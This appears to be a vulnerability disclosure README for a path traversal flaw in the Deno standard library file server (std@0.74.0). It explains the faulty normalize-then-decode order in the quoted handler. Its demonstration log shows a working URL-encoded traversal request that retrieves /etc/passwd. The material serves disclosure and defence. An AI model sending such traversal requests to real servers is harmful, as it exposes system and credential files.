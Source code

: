 # Deno File Server (std@0.74.0) Path Traversal

This document describes "CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')" found in [Deno File Server](https://deno.land/manual/examples/file_server) in Deno Standard Modules 0.74.0.

## Summary

Deno File Server in [std@0.74.0](https://deno.land/std@0.74.0) has Path Traversal vulnerability. An attacker can exploit it by sending a crafted HTTP request containing path traversal character sequences to the server.

## Details

Here is the code of the handler for serving file content or directory listing to a client.

- [The vulnerable handler](https://deno.land/std@0.74.0/http/file_server.ts#L364-402):

    ```ts
      [...]
      const handler = async (req: ServerRequest): Promise<void> => {
        let normalizedUrl = posix.normalize(req.url);         // [[ 1 ]]
        try {
          normalizedUrl = decodeURIComponent(normalizedUrl);  // [[ 2 ]]
        } catch (e) {
          if (!(e instanceof URIError)) {
              throw e;
          }
        }
        const fsPath = posix.join(target, normalizedUrl);     // [[ 3 ]]

        let response: Response | undefined;
        try {
          const fileInfo = await Deno.stat(fsPath);           // [[ 4 ]]
          if (fileInfo.isDirectory) {
            if (dirListingEnabled) {
              response = await serveDir(req, fsPath);         // [[ 5 ]]
            } else {
              throw new Deno.errors.NotFound();
            }
          } else {
            response = await serveFile(req, fsPath);          // [[ 6 ]]
          }
        } catch (e) {
          console.error(e.message);
          response = await serveFallback(req, e);
        } finally {
          if (CORSEnabled) {
            assert(response);
            setCORS(response);
          }
          serverLog(req, response!);
          try {
            await req.respond(response!);
          } catch (e) {
            console.error(e.message);
          }
        }
      };
      [...]
    ```

It performs normalization of path part of a user-supplied URL at [[ 1 ]] before decoding URI components at [[ 2 ]]. At [[ 3 ]], it joins `target`, the base directory for file server, and the normalized path.  Then, it serves file content or directory listing of `fsPath` by `serveFile` at [[ 5 ]] or `serveDir` at [[ 6 ]] on the result of `fileInfo` at [[ 4 ]].  
If an attacker supplies a URL with URI-encoded path traversal character sequences as `req.url`, it bypasses path normalization due to the order of [[ 1 ]] and [[ 2 ]].

## Demonstration

There are services constructed with Docker Compose for demonstrating PoC. We can reproduce the issue with the following instructions.

1. Build the services.

    ```sh
    docker-compose build
    ```

2. Launch the services.

    ```sh
    docker-compose up
    ```

It performs exploitaion automatically. A sample output is here:

- A sample output of PoC demo

    ```none
    % COMPOSE_DOCKER_CLI_BUILD=1 DOCKER_BUILDKIT=1 docker-compose up
    WARNING: Native build is an experimental feature and could change at any time
    Starting 2020-10-21_deno-std-0740-file-server-path-traversal_victim_1 ... done
    Starting 2020-10-21_deno-std-0740-file-server-path-traversal_user_1   ... done
    Starting 2020-10-21_deno-std-0740-file-server-path-traversal_attacker_1 ... done
    Attaching to 2020-10-21_deno-std-0740-file-server-path-traversal_victim_1, 2020-10-21_deno-std-0740-file-server-path-traversal_user_1, 2020-10-21_deno-std-0740-file-server-path-traversal_attacker_1
    victim_1    | HTTP server listening on http://0.0.0.0:4507/
    user_1      | 🦕 .oO( Deno File Server is running! )
    victim_1    | [2020-10-21 06:07:26] "GET /deno.txt HTTP/1.1" 200
    2020-10-21_deno-std-0740-file-server-path-traversal_user_1 exited with code 0
    attacker_1  | *:__main__:Reading '/etc/passwd' from 'http://victim:4507'
    victim_1    | [2020-10-21 06:07:26] "GET /%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd HTTP/1.1" 200
    attacker_1  | root:x:0:0:root:/root:/bin/bash
    attacker_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    attacker_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
    attacker_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
    attacker_1  | sync:x:4:65534:sync:/bin:/bin/sync
    attacker_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
    attacker_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    attacker_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    attacker_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    attacker_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    attacker_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    attacker_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    attacker_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    attacker_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    attacker_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    attacker_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    attacker_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    attacker_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    attacker_1  | _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    attacker_1  | 
    2020-10-21_deno-std-0740-file-server-path-traversal_attacker_1 exited with code 0
    ```
